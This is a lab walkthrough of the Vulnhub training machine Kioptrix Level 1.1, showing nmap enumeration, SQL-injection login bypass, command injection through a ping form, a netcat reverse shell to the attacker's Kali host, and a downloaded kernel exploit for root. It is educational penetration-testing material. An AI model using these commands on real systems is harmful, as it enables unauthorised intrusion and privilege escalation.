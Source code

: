 ```yaml
---
title: 'Vulnhub: Kioptrix Level 1.1(#2) - Walkthrough'
date: '2019-06-06T21:18:20+05:30'
draft: false
categories:
  - walkthrough
autoThumbnailImage: false
---
```

Kioptrix 2, the successor of one of the most popular vulnerable machines available online used for OSCP training, can be found here[ https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

Upon opening in the VMware, the machine looks like this 

![](/images/uploads/b-1-.png)

Then I’ll discover the IP address of the target machine using the command

`arp-scan –l`

![](/images/uploads/b-2-.png)

Then I did port scanning of the target machine to check for open ports and services running on them

`nmap –A –Pn 192.168.192.133`

The complete result was as follows with the ports and services running highlighted:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2019-06-06 04:39 EDT
Nmap scan report for 192.168.192.133
Host is up (0.0010s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            839/udp  status
|_  100024  1            842/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2019-06-06T05:30:31+00:00; -3h09m48s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:12:E2:C6 (VMware)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop
Host script results:
|_clock-skew: mean: -3h09m48s, deviation: 0s, median: -3h09m48s
TRACEROUTE
HOP RTT     ADDRESS
1   1.03 ms 192.168.192.133
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.17 seconds
```

Now after this I tried using SSH for login, but couldn’t succeed. **_IPP on port 631 with CUPS 1.1_** was my next target to try on, so I spent a good amount of time trying its exploits, but nothing really seemed to work. Then I also tried **_remote login on MySQL_** but it didn’t work either. Now I came to the **_port 80, for HTTP_**. The following is the webapp hosted on the target machine.

![](/images/uploads/b-3-.png)

This opened up a login, so first things first, I tried SQL Injection 

![](/images/uploads/b-4-.png)

And it actually worked, this opened the following page

![](/images/uploads/b-5-.png)

Now I tried pinging my own IP address, which worked and the next thing which striked in my mind was trying command execution using the same prompt box we entered the IP address in, I start with a simple **_pwd_** command

`<IP address to ping>;<linux command to execute along>`

![](/images/uploads/b-6-.png)

Now I start a netcat listener on my machine, using the command

`nc –nlvp <any available port>`

![](/images/uploads/b-7-.png)

Now to get terminal access of the target machine on mine, I use the following command taking advantage of the command execution vulnerability I previously found.

`<any IP to ping>;/usr/local/bin/nc <Kali’s IP> <Port number on which listener is on> -e '/bin/bash'`

![](/images/uploads/b-8-.png)

After executing this command, we’ll see a connection is established on our listener

Now we got the terminal access, but to get a command line interface, I used the command

`python –c “import pty;pty.spawn(‘/bin/bash/)”`

![](/images/uploads/b-9-.png)

Now that I have a directory access, I tried playing in the directories for a while and used normal commands to learn more about the machines and files stored on it, some of these commands are below.

![](/images/uploads/b-10-.png)

Now that I had user access and I surfed around the directories a little, I found writable file permissions for the folder _**/tmp **_which could be used for using a privilege escalation exploit compiling it and running it, which is exactly what I did.

Now I used two commands to make me aware of the Linux Kernel version and the OS release.

`cat /etc/*-release`	(OS Release)

`uname –r`			(Linux Kernel Version)

![](/images/uploads/b-11-.png)

Using this exploit, I used the _**searchsploit **_tool in Kali to find a Privilege Escalation exploit.

![](/images/uploads/b-12-.png)

Now that I found exactly one exploit, I could try using it on the machine. To download it onto the target machine, I will make use of the remote netcat terminal I created but first I’ll need to create a server from Kali hosting that exploit file I just found. For this I used the following commands

`searchsploit –m <exploit file name with extension>`		(copies the file to the working dir)

![](/images/uploads/b-13-.png)

`python –m SimpleHTTPServer`			(starts a server in the same directory)

![](/images/uploads/b-14-.png)

Now that this is done, I headed to the /tmp folder where writing and creating files is allowed for a normal user too, and download the exploit from the server I just created using the commands

`cd /tmp`

`wget <Kali’s IP address>:<port number of server>/<filename to be downloaded>`

![](/images/uploads/b-15-.png)

After the exploit is downloaded, I now need to compile it and execute it.

`gcc –o <executable output exploit name> <exploit file name>		`	(to compile)

`./<executable file name>`

![](/images/uploads/b-16-.png)

And upon the sight of “#” I knew that I’ve successfully escalated the privilege to root access.

To confirm it, I further used the commands “`whoami`” and “`id`”

![](/images/uploads/b-17-.png)

Congratulations, we have successfully completed the walk-through, I hope you enjoyed it, regarding any doubts, I can be contacted via the contact information available on the blog.



Best Regards,

Adhyan Dhull
